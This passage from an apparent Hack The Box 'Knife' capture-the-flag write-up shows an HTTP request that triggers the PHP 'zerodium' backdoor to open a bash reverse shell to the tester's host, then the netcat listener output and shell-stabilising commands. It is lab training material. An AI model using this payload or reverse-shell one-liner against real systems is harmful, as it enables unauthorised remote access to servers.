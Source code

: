 At this point it is possible to execute a classic reverse shell payload and obtain a low level access to the machine:

```
POST /index.php HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodium system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.17/10099 0>&1'"); 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0
```

Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.242] 60114
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
james@knife:/$ hostname && ifconfig
hostname && ifconfig
knife
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2717765  bytes 412004448 (412.0 MB)
        RX errors 0  dropped 47  overruns 0  frame 0
        TX packets 2505289  bytes 1104331428 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10879268  bytes 1934361744 (1.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10879268  bytes 1934361744 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
		
which python3
/usr/bin/python3
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ stty raw -echo; fg																		148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 10099
james@knife:/$ export TERM=xterm
james@knife:/$ stty rows 60 columns 235
```
